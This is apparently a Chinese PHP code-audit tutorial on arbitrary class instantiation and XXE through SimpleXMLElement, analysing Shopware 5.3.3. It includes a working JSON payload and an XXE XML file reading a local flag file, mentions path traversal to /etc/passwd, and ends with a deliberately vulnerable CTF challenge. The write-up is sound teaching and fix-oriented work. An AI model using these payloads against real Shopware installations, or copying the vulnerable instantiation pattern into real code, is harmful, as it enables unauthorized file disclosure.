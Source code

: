 本文由红日安全成员： **七月火** 编写，如有不当，还望斧正。

## 前言

大家好，我们是红日安全-代码审计小组。最近我们小组正在做一个PHP代码审计的项目，供大家学习交流，我们给这个项目起了一个名字叫 **PHP-Audit-Labs** 。现在大家所看到的系列文章，属于项目 **第一阶段** 的内容，本阶段的内容题目均来自 [PHP SECURITY CALENDAR 2017](https://www.ripstech.com/php-security-calendar-2017/) 。对于每一道题目，我们均给出对应的分析，并结合实际CMS进行解说。在文章的最后，我们还会留一道CTF题目，供大家练习，希望大家喜欢。下面是 **第3篇** 代码审计文章：

## Day 3 - Snow Flake

题目叫做雪花，代码如下：

![1](1.png)

**漏洞解析** ：

这段代码中存在两个安全漏洞。第一个是文件包含漏洞，上图第8行中使用了 **class_exists()** 函数来判断用户传过来的控制器是否存在，默认情况下，如果程序存在 **__autoload** 函数，那么在使用 **class_exists()** 函数就会自动调用本程序中的 **__autoload** 函数，这题的文件包含漏洞就出现在这个地方。攻击者可以使用 **路径穿越** 来包含任意文件，当然使用路径穿越符号的前提是 **PHP5~5.3(包含5.3版本)版本** 之间才可以。例如类名为： **../../../../etc/passwd** 的查找，将查看passwd文件内容，我们来看一下PHP手册对 **class_exists()** 函数的定义：

>[ class_exists ](http://php.net/manual/zh/function.class-exists.php) ：(PHP 4, PHP 5, PHP 7)
>
>**功能** ：检查类是否已定义
>
>**定义** ： `bool class_exists ( string $class_name[, bool $autoload = true ] )` 
>
>**$class_name** 为类的名字，在匹配的时候不区分大小写。默认情况下 **$autoload** 为 **true** ，当 **$autoload** 为 **true** 时，会自动加载本程序中的 **__autoload** 函数；当 **$autoload** 为 **false** 时，则不调用 **__autoload** 函数。

我们再来说说第二个漏洞。在上图第9行中，我们发现实例化类的类名和传入类的参数均在用户的控制之下。攻击者可以通过该漏洞，调用PHP代码库的任意构造函数。即使代码本身不包含易受攻击的构造函数，我们也可以使用PHP的内置类 **SimpleXMLElement** 来进行 **XXE** 攻击，进而读取目标文件的内容，甚至命令执行（前提是安装了PHP拓展插件expect），我们来看一下PHP手册对 **SimpleXMLElement** 类的定义：

>[SimpleXMLElement](http://php.net/manual/zh/class.simplexmlelement.php) ：(PHP 5, PHP 7)
>
>**功能** ：用来表示XML文档中的元素，为PHP的内置类。

关于 **SimpleXMLElement** 导致的XXE攻击，下面再给出一个demo案例，方便大家理解：

![2](2.png)

## 实例分析

本次实例分析，我们选取的是 **Shopware 5.3.3** 版本，对 **SimpleXMLElement** 类导致的 **XXE漏洞** 进行分析，而 **class_exists()** 函数，我们将会在本次给出的CTF题目中深入讨论。我们来看一下本次漏洞的文件，在 **engine\Shopware\Controllers\Backend\ProductStream.php** 文件中有一个 **loadPreviewAction** 方法，其作用是用来预览产品流的详细信息，具体代码如下：

![3](3.png)

该方法接收从用户传来的参数 **sort** ，然后传入 **Repository** 类的 **unserialize** 方法（如上图第11-14行代码），我们跟进 **Repository** 类，查看 **unserialize** 方法的实现。该方法我们可以在 **engine\Shopware\Components\ProductStream\Repository.php** 文件中找到，代码如下：

![4](4.png)

可以看到 **Repository** 类的 **unserialize** 方法，调用的是 **LogawareReflectionHelper** 类的 **unserialize** 方法（如上图第5行代码），该方法我们可以在 **engine\Shopware\Components\LogawareReflectionHelper.php** 文件中找到，具体代码如下：

![5](5.png)

这里的 **$serialized** 就是我们刚刚传入的 **sort** （上图第3行），程序分别从 **sort** 中提取出值赋给 **$className** 和 **$arguments** 变量，然后这两个变量被传入 **ReflectionHelper** 类的 **createInstanceFromNamedArguments** 方法。该方法位于 **engine\Shopware\Components\ReflectionHelper.php** 文件，具体代码如下：

![6](6.png)

这里我们关注 **第6行** 代码，这里创建了一个反射类，而类的名称就是从 **$sort** 变量来的，可被用户控制利用。继续往下看，在代码第28行处用 **$newParams** 作为参数，创建一个新的实例对象。而这里的  **$newParams** 是从 **$arguments[\$paramName]** 中取值的， **$arguments** 又是我们可以控制的，因为也是从 **$sort** 变量来，所以我们可以通过这里来实例化一个 **SimpleXMLElement** 类对象，形成一个XXE漏洞。下面，我们来看看具体如何利用这个漏洞。

## 漏洞利用

首先，我们需要登录后台，找到调用 **loadPreviewAction** 接口的位置，发现其调用位置如下：

![7](7.png)

当我们点击 **Refresh preview** 按钮时，就会调用 **loadPreviewAction** 方法，用BurpSuite抓到包如下：

```http
GET /shopware520/backend/ProductStream/loadPreview?_dc=1530963660916&sort={"Shopware\\Bundle\\SearchBundle\\Sorting\\PriceSorting":{"direction":"asc"}}&conditions={}&shopId=1&currencyId=1&customerGroupKey=EK&page=1&start=0&limit=2 HTTP/1.1
Host: localhost
X-CSRF-Token: IKiwilE7pecuIUmEAJigyg6fVXY6vR
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept: */*
Referer: http://localhost/shopware520/backend/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SHOPWAREBACKEND=78ghtddjn8n8efpv1cudj6eao0; KCFINDER_showname=on; KCFINDER_showsize=off; KCFINDER_showtime=off; KCFINDER_order=name; KCFINDER_orderDesc=off; KCFINDER_view=thumbs; KCFINDER_displaySettings=off; goods[cart]=180615151154565652; XDEBUG_SESSION=PHPSTORM
Connection: close
```

我们可以看到 **sort** 值为 `{"Shopware\\Bundle\\SearchBundle\\Sorting\\PriceSorting":{"direction":"asc"}}` ,于是我们按照其格式构造payload： `{"SimpleXMLElement":{"data":"http://localhost/xxe.xml","options":2,"data_is_url":1,"ns":"","is_prefix":0}}` ，关于payload的含义，可以看看 **SimpleXMLElement** 类的 **__construct** 函数定义，具体点 [这里](http://php.net/manual/zh/simplexmlelement.construct.php) 

```php
final public SimpleXMLElement::__construct ( string $data [, int $options = 0 [, bool $data_is_url = FALSE [, string $ns = "" [, bool $is_prefix = FALSE ]]]] )
```

笔者所用的xxe.xml内容如下：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE ANY [ 
     <!ENTITY xxe SYSTEM "file:///C:/phpStudy/PHPTutorial/WWW/flag.txt">
]>
<x>&xxe;</x>
```

我们发送payload，并用xdebug调试程序，最后程序将我们读取的值存储在 **$conditions** 变量中，如下图所示：

![8](8.png)

## 修复建议

关于PHP中XXE漏洞的修复，我们可以过滤关键词，如： **ENTITY** 、 **SYSTEM** 等，另外，我们还可以通过禁止加载XML实体对象的方式，来防止XXE漏洞（如下图第2行代码），具体代码如下：

![9](9.png)

## 结语

看完了上述分析，不知道大家是否对 **XXE攻击** 有了更加深入的理解，文中用到的CMS可以从 [这里](http://releases.s3.shopware.com.s3.amazonaws.com/install_5.3.3_0e50204087219ada9cdd9a74cd17cbb264e8c0a4.zip?_ga=2.21910011.1134495119.1530714243-2059409569.1530714243) 下载，当然文中若有不当之处，还望各位斧正。如果你对我们的项目感兴趣，欢迎发送邮件到 **hongrisec@gmail.com** 联系我们。**Day3** 的分析文章就到这里，我们最后留了一道CTF题目给大家练手，题目如下：

```php
// index.php
<?php
class NotFound{
    function __construct()
    {
        die('404');
    }
}
spl_autoload_register(
	function ($class){
		new NotFound();
	}
);
$classname = isset($_GET['name']) ? $_GET['name'] : null;
$param = isset($_GET['param']) ? $_GET['param'] : null;
$param2 = isset($_GET['param2']) ? $_GET['param2'] : null;
if(class_exists($classname)){
	$newclass = new $classname($param,$param2);
	var_dump($newclass);
    foreach ($newclass as $key=>$value)
        echo $key.'=>'.$value.'<br>';
}
```

```php
// f1agi3hEre.php
<?php
$flag = "HRCTF{X33_W1tH_S1mpl3Xml3l3m3nt}";
?>
```

题解我们会阶段性放出，如果大家有什么好的解法，可以在文章底下留言，祝大家玩的愉快！

## 相关文章

[Shopware 5.3.3: PHP Object Instantiation to Blind XXE](https://blog.ripstech.com/2017/shopware-php-object-instantiation-to-blind-xxe/)